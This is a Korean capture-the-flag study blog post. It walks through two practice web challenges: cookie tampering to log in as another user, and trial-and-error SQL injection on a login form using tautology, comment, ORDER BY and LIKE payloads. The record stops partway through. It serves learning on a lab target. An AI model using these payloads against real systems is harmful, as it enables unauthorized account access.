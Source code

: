 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-26
last_modified_at: 

tags: [TIL, WEB, DATABASE, CTF]
---
```


# Login Bypass 5
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-7.png?raw=true)
response에서 Set-Cookie: loginUser = doldol이 보인다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-8.png?raw=true)
2. response를 탈취해서 loginUser를 normaltic5로 변경하겠다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-9.png?raw=true)

# Secret Login
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-3.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' ='1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection이 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 식별과 인증 동시에 하는 듯
sql: select id, pw from table where id = 'id' and pw = 'pw'
5. 
id: ' or '1' = '1'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> ' or '1' = '1'#이렇게 하면 모든 row를 다 챙겨오는 데 하나 밖에 안 보여지다보니 가장 첫 번째 row만 보여지는 듯
6. 
id: login_acc' #
pw: asdf
-> X
-> 왜 안 되지?
-> 표시되는 게 아이디가 아니라 이름인 건가?
7. 
id: login_acc' or '1' = '1' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
8. 
id: ' or '1' = '1' order by 1, 2, 3 #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 아이디, 패스워드, 사용자 이름이 있다고 가정하고 시작
... 하나씩 늘려보는 중 ...
8. 
id: ' or '1' = '1' order by 1, 2, 3, 4, 5, 6, 7 #
pw: asdf
-> x
-> column이 6개인 걸 보면 표시되는 게 아이디가 아니라 이름일 가능성이 높네
-> admin의 row를 어떻게 가져올 수 있을까?
9. 
SELECT [UserId], [Password] FROM [table] WHERE [UserId] = '___' AND [Password] = '___'
column을 UserName일 것이라 추측해봄
id: ' or '1' = '1' AND UserName = 'login_acc' #
pw: asdf
-> X
10. 
id: ' or '1' = '1' AND Username = 'login_acc' #
pw: asdf
-> X
11. 
id: ' or '1' = '1' AND username = 'login_acc' #
pw: asdf
-> X
12. 
id: ' or '1' = '1' AND user_name = 'login_acc' #
pw: asdf
-> X
13. 
id: ' or '1' = '1' AND user-name = 'login_acc' #
pw: asdf
-> X
14. 
id: ' or '1' = '1' AND name = 'login_acc' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 표시되는 게 유저명인 게 확실해졌고
-> column이 name이라는 것도 확인했다
-> 그렇지만 admin은 아니라는 거
-> 혹시 name에 like를 집어넣으면? flag의 경우에는 {}가 들어가니까 이걸 검색하는 걸로
15. 
SELECT * FROM [table] WHERE [UserId] = '___' or '1' = '1' AND name like '%}' #[Password] = '___'
id: ' or '1' = '1' and name like '%}' #
pw: asdf
-> X
-> 어딘가 문법이 틀렸나
16. 
id: ' or name like '%}' #
pw: asdf
-> x
17. 
id: ' or name like '%a%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
18. 
id: ' or name like '%e%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-6.png?raw=true)